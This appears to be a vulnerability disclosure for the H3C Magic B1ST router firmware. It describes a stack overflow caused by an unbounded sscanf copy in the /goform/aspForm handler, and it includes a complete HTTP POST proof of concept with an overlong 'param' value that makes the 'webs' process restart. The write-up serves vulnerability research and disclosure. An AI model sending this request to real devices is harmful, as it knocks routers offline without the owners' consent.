 ## Overview

> Vendor: H3C
> Product: Magic B1ST
> Version: H3C_Magic_B1STV100R012
> Type: Stack Overflow

## Vulnerability

In route`/goform/aspForm`, the value of the key `CMD` is `Edit_BasicSSID_5G`, the program will go into the following handling function.

![image-20230610002319736](assets/image-20230610002319736.png)

First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v33` on the stack. The parameter `%[^;]` of `sscanf` didn't limit the copy length.

![image-20230610002347260](assets/image-20230610002347260.png)

## PoC

```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=Edit_BasicSSID_5G&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;
```

## Result

the process `webs` restart

![image-20230610123552388](assets/image-20230610123552388.png)
